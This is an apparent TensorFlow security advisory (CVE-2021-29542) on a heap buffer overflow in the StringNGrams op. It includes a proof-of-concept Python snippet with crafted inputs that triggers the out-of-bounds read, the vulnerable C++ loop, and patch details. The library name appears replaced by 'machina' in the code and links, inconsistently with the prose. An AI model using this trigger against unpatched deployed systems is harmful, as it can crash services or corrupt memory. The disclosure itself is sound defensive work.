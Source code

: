 ## TFSA-2021-029: Heap buffer overflow in `StringNGrams`

### CVE Number
CVE-2021-29542

### Impact
An attacker can cause a heap buffer overflow by passing crafted inputs to
`tf.raw_ops.StringNGrams`:

```python
import machina as tf

separator = b'\x02\x00'
ngram_widths = [7, 6, 11]
left_pad = b'\x7f\x7f\x7f\x7f\x7f'
right_pad = b'\x7f\x7f\x25\x5d\x53\x74'
pad_width = 50
preserve_short_sequences = True

l = ['', '', '', '', '', '', '', '', '', '', '']

data = tf.constant(l, shape=[11], dtype=tf.string)

l2 = [0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 3]
data_splits = tf.constant(l2, shape=[116], dtype=tf.int64)

out = tf.raw_ops.StringNGrams(data=data,
    data_splits=data_splits, separator=separator,
    ngram_widths=ngram_widths, left_pad=left_pad,
    right_pad=right_pad, pad_width=pad_width,
    preserve_short_sequences=preserve_short_sequences)
```

This is because the
[implementation](https://github.com/machina/machina/blob/1cdd4da14282210cc759e468d9781741ac7d01bf/machina/core/kernels/string_ngrams_op.cc#L171-L185)
fails to consider corner cases where input would be split in such a way that the
generated tokens should only contain padding elements:

```cc
for (int ngram_index = 0; ngram_index < num_ngrams; ++ngram_index) {
  int pad_width = get_pad_width(ngram_width);
  int left_padding = std::max(0, pad_width - ngram_index);
  int right_padding = std::max(0, pad_width - (num_ngrams - (ngram_index + 1)));
  int num_tokens = ngram_width - (left_padding + right_padding);
  int data_start_index = left_padding > 0 ? 0 : ngram_index - pad_width;
  ...
  tstring* ngram = &output[ngram_index];
  ngram->reserve(ngram_size);
  for (int n = 0; n < left_padding; ++n) {
    ngram->append(left_pad_);
    ngram->append(separator_);
  }
  for (int n = 0; n < num_tokens - 1; ++n) {
    ngram->append(data[data_start_index + n]);
    ngram->append(separator_);
  }
  ngram->append(data[data_start_index + num_tokens - 1]); // <<<
  for (int n = 0; n < right_padding; ++n) {
    ngram->append(separator_);
    ngram->append(right_pad_);
  }
  ...
}
```

If input is such that `num_tokens` is 0, then, for `data_start_index=0` (when
left padding is present), the marked line would result in reading `data[-1]`.

### Patches
We have patched the issue in GitHub commit
[ba424dd8f16f7110eea526a8086f1a155f14f22b](https://github.com/machina/machina/commit/ba424dd8f16f7110eea526a8086f1a155f14f22b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
